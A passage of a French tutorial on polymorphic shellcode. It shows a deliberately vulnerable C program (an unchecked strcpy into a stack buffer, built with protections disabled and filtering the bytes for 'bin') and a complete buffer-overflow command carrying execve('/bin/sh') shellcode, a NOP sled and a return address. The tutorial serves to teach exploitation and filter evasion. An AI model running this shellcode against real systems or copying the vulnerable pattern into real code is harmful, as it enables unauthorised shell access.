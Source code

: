 Et nous obtenons effectivement un shell.
2. Shellcode Polymorphique


Remarquons que, dans notre shellcode, nous avons la chaîne « \x2f\x62\x69\x6e\x2f\x73\x68 », soit la représentation hexadécimale de le la commande « /bin/sh » - ce qui n'est pas étonnant, étant donné qu'il s'agit du paramètre que nous passons au syscall execve.

Cela peut poser problème lorsqu'un certain nombre de protections que nous citions dans l'introduction sont mises en place. Prenons l'exemple le plus simple : les entrées sont filtrées, de telle sorte que l'on ne puisse pas injecter de chaîne contenant, par exemple, le mot « bin », représenté en hexadécimal par la chaîne « 62 69 6e », qui pourrait être un shellcode.

Reconsidérons le code utilisé dans la première partie, agrémenté d'un filtre sur la chaîne hexadécimale « \x62\x69\x6e » :
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// gcc vuln.c -o vuln -fno-stack-protector -z execstack

int main(int argc, char **argv){

* char buffer[256];
* int i=0;

* printf("Adresse buffer : %p\n", buffer);

* char *ret = strstr(argv[1],"\x62\x69\x6e"); // filter

* if (ret!=NULL){
* * printf("%s\n","Hack attempt!");
* * return 1;
* }

* strcpy(buffer, argv[1]);

* return 0;
}
```

Tentons maintenant d'exécuter notre shellcode :
```bash
zweisamkeit@linux [ Polsh ] --> ./vuln $(python2.7 -c 'print "\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"+"\x90"*252+"\xb0\xe5\xff\xff\xff\x7f"')
Adresse buffer : 0x7fffffffe5b0
Hack attempt!
zweisamkeit@linux [ Polsh ] -->
```

Le filtre a repéré une chaîne dangereuse dans l'entrée, et a donc mis un terme à l'exécution du programme.
